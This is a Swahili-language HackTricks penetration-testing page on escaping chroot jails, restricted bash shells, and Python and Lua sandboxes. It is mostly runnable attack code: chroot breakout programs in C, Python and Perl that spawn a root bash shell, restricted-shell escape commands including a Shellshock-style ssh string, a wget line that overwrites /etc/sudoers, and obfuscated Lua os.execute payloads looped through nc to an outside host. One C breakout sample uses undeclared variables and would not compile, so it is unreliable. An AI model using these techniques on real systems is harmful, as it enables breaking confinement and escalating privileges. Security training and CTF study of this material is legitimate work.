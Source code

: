 # Kutoroka Kutoka Jela

{% hint style="success" %}
Jifunze na zoezi la AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Mafunzo ya HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Jifunze na zoezi la GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Mafunzo ya HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **GTFOBins**

**Tafuta kwenye** [**https://gtfobins.github.io/**](https://gtfobins.github.io) **ikiwa unaweza kutekeleza binary yoyote na mali ya "Shell"**

## Kutoroka kwa Chroot

Kutoka [wikipedia](https://en.wikipedia.org/wiki/Chroot#Limitations): Mfumo wa chroot haukusudiwi kumlinda dhidi ya kuharibiwa kwa makusudi na watumiaji wenye **mamlaka** (**root**). Kwenye mifumo mingi, muktadha wa chroot hauwezi kustack vizuri na programu zilizochrooted **zenye mamlaka ya kutosha zinaweza kufanya chroot ya pili kuvunja**.\
Kawaida hii inamaanisha kwamba ili kutoroka unahitaji kuwa root ndani ya chroot.

{% hint style="success" %}
**Zana** [**chw00t**](https://github.com/earthquake/chw00t) ilitengenezwa kwa kudhuru mazingira yafuatayo na kutoroka kutoka `chroot`.
{% endhint %}

### Root + CWD

{% hint style="warning" %}
Ikiwa wewe ni **root** ndani ya chroot unaweza **kutoroka** kwa kuunda **chroot nyingine**. Hii ni kwa sababu chroot 2 haziwezi kuwepo pamoja (kwenye Linux), hivyo ikiwa unajenga folda na kisha **kuunda chroot mpya** kwenye folda hiyo mpya ukiwa **nje yake**, sasa utakuwa **nje ya chroot mpya** na hivyo utakuwa kwenye FS.

Hii hutokea kwa sababu kawaida chroot HAIHAMISHI saraka yako ya kufanyia kazi kwenye ile iliyoelekezwa, hivyo unaweza kuunda chroot lakini uwe nje yake.
{% endhint %}

Kawaida hutapata binary ya `chroot` ndani ya gereza la chroot, lakini **unaweza kuiandika, kuipakia na kuitekeleza**:

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("chroot-dir", 0755);
chroot("chroot-dir");
for(int i = 0; i < 1000; i++) {
chdir("..");
}
chroot(".");
system("/bin/bash");
}
```
</details>

<details>

<summary>Kipanya</summary>
```python
#!/usr/bin/python
import os
os.mkdir("chroot-dir")
os.chroot("chroot-dir")
for i in range(1000):
os.chdir("..")
os.chroot(".")
os.system("/bin/bash")
```
</details>

<details>

<summary>Perl</summary>
```perl
#!/usr/bin/perl
mkdir "chroot-dir";
chroot "chroot-dir";
foreach my $i (0..1000) {
chdir ".."
}
chroot ".";
system("/bin/bash");
```
</details>

### Root + Saved fd

{% hint style="warning" %}
Hii ni sawa na kesi iliyopita, lakini katika kesi hii **mshambuliaji hifadhi file descriptor kwa saraka ya sasa** na kisha **anajenga chroot katika saraka mpya**. Hatimaye, akiwa na **upatikanaji** wa **FD** hiyo **nje** ya chroot, anapata na **kutoroka**.
{% endhint %}

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("tmpdir", 0755);
dir_fd = open(".", O_RDONLY);
if(chroot("tmpdir")){
perror("chroot");
}
fchdir(dir_fd);
close(dir_fd);
for(x = 0; x < 1000; x++) chdir("..");
chroot(".");
}
```
</details>

### Root + Fork + UDS (Unix Domain Sockets)

{% hint style="warning" %}
FD inaweza kupitishwa juu ya Unix Domain Sockets, hivyo:

* Unda mchakato wa mtoto (fork)
* Unda UDS ili mzazi na mtoto waweze kuongea
* Tekeleza chroot katika mchakato wa mtoto katika saraka tofauti
* Katika mchakato wa mzazi, unda FD ya saraka ambayo iko nje ya chroot mpya ya mchakato wa mtoto
* Pita kwa mtoto FD hiyo kutumia UDS
* Mchakato wa mtoto chdir kwa FD hiyo, na kwa sababu iko nje ya chroot yake, atatoka gerezani
{% endhint %}

### Root + Mount

{% hint style="warning" %}
* Kufunga kifaa cha mzizi (/) ndani ya saraka ndani ya chroot
* Kuingia chroot katika saraka hiyo

Hii inawezekana katika Linux
{% endhint %}

### Root + /proc

{% hint style="warning" %}
* Funga procfs ndani ya saraka ndani ya chroot (ikiwa bado haijafanyika)
* Tafuta pid ambayo inaingia tofauti ya mzizi/cwd, kama: /proc/1/root
* Chroot katika kuingia hiyo
{% endhint %}

### Root(?) + Fork

{% hint style="warning" %}
* Unda Fork (mchakato wa mtoto) na chroot katika saraka tofauti zaidi katika FS na CD juu yake
* Kutoka kwa mchakato wa mzazi, hamisha saraka ambapo mchakato wa mtoto yuko katika saraka kabla ya chroot ya watoto
* Mchakato hawa watoto watapata wenyewe nje ya chroot
{% endhint %}

### ptrace

{% hint style="warning" %}
* Zamani watumiaji wangeweza kudebugi mchakato wao wenyewe kutoka kwa mchakato wa wenyewe... lakini hii sio inawezekana kwa chaguo-msingi tena
* Hata hivyo, ikiwa inawezekana, unaweza ptrace katika mchakato na kutekeleza shellcode ndani yake ([angalia mfano huu](linux-capabilities.md#cap\_sys\_ptrace)).
{% endhint %}

## Jela za Bash

### Uchambuzi

Pata habari kuhusu gereza:
```bash
echo $SHELL
echo $PATH
env
export
pwd
```
### Badilisha PATH

Angalia kama unaweza kubadilisha mazingira ya PATH
```bash
echo $PATH #See the path of the executables that you can use
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin #Try to change the path
echo /home/* #List directory
```
### Kutumia vim
```bash
:set shell=/bin/sh
:shell
```
### Unda skripti

Angalia kama unaweza kuunda faili inayoweza kutekelezwa na _/bin/bash_ kama yaliyomo
```bash
red /bin/bash
> w wx/path #Write /bin/bash in a writable and executable path
```
### Pata bash kutoka SSH

Ikiwa unatumia ssh unaweza kutumia hila hii kutekeleza bash shell:
```bash
ssh -t user@<IP> bash # Get directly an interactive shell
ssh user@<IP> -t "bash --noprofile -i"
ssh user@<IP> -t "() { :; }; sh -i "
```
### Tangaza
```bash
declare -n PATH; export PATH=/bin;bash -i

BASH_CMDS[shell]=/bin/bash;shell -i
```
### Wget

Unaweza kubadilisha mfano wa faili ya sudoers
```bash
wget http://127.0.0.1:8080/sudoers -O /etc/sudoers
```
### Mbinu Nyingine

[**https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/**](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/)\
[https://pen-testing.sans.org/blog/2012/0**b**6/06/escaping-restricted-linux-shells](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells)\
[https://gtfobins.github.io](https://gtfobins.github.io)\
**Pia inaweza kuwa ya kuvutia ukurasa:**

{% content-ref url="../bypass-bash-restrictions/" %}
[bypass-bash-restrictions](../bypass-bash-restrictions/)
{% endcontent-ref %}

## Python Jails

Mbinu za kutoroka kutoka kwa jela za python zinapatikana kwenye ukurasa ufuatao:

{% content-ref url="../../generic-methodologies-and-resources/python/bypass-python-sandboxes/" %}
[bypass-python-sandboxes](../../generic-methodologies-and-resources/python/bypass-python-sandboxes/)
{% endcontent-ref %}

## Lua Jails

Kwenye ukurasa huu unaweza kupata kazi za jumla unazoziweza ndani ya lua: [https://www.gammon.com.au/scripts/doc.php?general=lua\_base](https://www.gammon.com.au/scripts/doc.php?general=lua\_base)

**Eval na utekelezaji wa amri:**
```bash
load(string.char(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))()
```
Baadhi ya mbinu za **kuita kazi za maktaba bila kutumia alama za mshono**:
```bash
print(string.char(0x41, 0x42))
print(rawget(string, "char")(0x41, 0x42))
```
Panga kazi za maktaba:
```bash
for k,v in pairs(string) do print(k,v) end
```
Tafadhali kumbuka kuwa kila unapotekeleza amri ya mstari mmoja iliyotangulia katika **mazingira tofauti ya lua, mpangilio wa kazi hubadilika**. Kwa hivyo, ikiwa unahitaji kutekeleza kazi moja maalum unaweza kufanya shambulio la nguvu likisoma mazingira tofauti ya lua na kuita kazi ya kwanza ya maktaba:
```bash
#In this scenario you could BF the victim that is generating a new lua environment
#for every interaction with the following line and when you are lucky
#the char function is going to be executed
for k,chr in pairs(string) do print(chr(0x6f,0x73,0x2e,0x65,0x78)) end

#This attack from a CTF can be used to try to chain the function execute from "os" library
#and "char" from string library, and the use both to execute a command
for i in seq 1000; do echo "for k1,chr in pairs(string) do for k2,exec in pairs(os) do print(k1,k2) print(exec(chr(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))) break end break end" | nc 10.10.10.10 10006 | grep -A5 "Code: char"; done
```
**Pata ganda la lua la kuingiliana**: Ikiwa uko ndani ya ganda la lua lililopunguzwa unaweza kupata ganda jipya la lua (na kwa matumaini lisililopunguzwa) kwa kuita:
```bash
debug.debug()
```
## Marejeo

* [https://www.youtube.com/watch?v=UO618TeyCWo](https://www.youtube.com/watch?v=UO618TeyCWo) (Vijisehemu: [https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf](https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf))

{% hint style="success" %}
Jifunze & zoezi AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Mafunzo ya HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Jifunze & zoezi GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Mafunzo ya HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa michango**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
